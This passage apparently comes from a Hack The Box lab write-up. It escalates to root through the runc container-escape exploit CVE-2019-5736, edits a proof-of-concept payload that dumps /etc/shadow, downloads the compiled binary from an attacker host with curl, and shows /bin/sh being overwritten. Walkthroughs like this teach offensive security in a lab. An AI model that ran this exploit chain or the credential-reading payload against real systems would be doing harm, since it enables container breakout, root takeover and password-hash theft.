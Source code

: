 ```*``` at the end say we can run and command after ```/usr/bin/docker exec -it webapp-dev01 ```, so let's get container shell 

using:
```console
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@0f4c2517af40:/opt/webapp#
```

So if we have permission to run ```docker exec``` as root we can use the following exploit [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

How does the exploit work?


There are 2 use cases for the exploit. The first (which is what this repo is), is essentially a trap. An attacker would need to get command execution inside a container and start a malicious binary which would listen. When someone (attacker or victim) uses docker exec to get into the container, this will trigger the exploit which will allow code execution as root.


So let's use this exploit:
```console
┌─[user@parrot]─[/hackthebox/TheNoteBook/container]
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/]
Cloning into 'CVE-2019-5736-PoC'...
remote: Enumerating objects: 45, done.
remote: Total 45 (delta 0), reused 0 (delta 0), pack-reused 45
Unpacking objects: 100% (45/45), 1.69 MiB | 2.48 MiB/s, done.
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/]
└──╼ $cd CVE-2019-5736-PoC/
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/CVE-2019-5736-PoC/]
└──╼ $ls
main.go  README.md  screenshots
```

Now, we need to change main.go code from:
```go
...
var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
...
```

To:
```go
...
var payload = "#!/bin/bash \n cat /root/root.txt > /tmp/rootflag && chmod 777 /tmp/rootflag"
...
```
 
After that change, let's compile it:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/CVE-2019-5736-PoC/]
└──╼ $go build main.go 
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook/CVE-2019-5736-PoC/]
└──╼ $
```

Listen to port 8000 and get the file ```main``` from container:
```console
# noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
# cd /tmp
# ls
requirements.txt  webapp.db
# curl http://10.10.14.34:8000/main > main
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2216k  100 2216k    0     0  1266k      0  0:00:01  0:00:01 --:--:-- 1266k
# chmod +x main
# ./main
[+] Overwritten /bin/sh successfully
```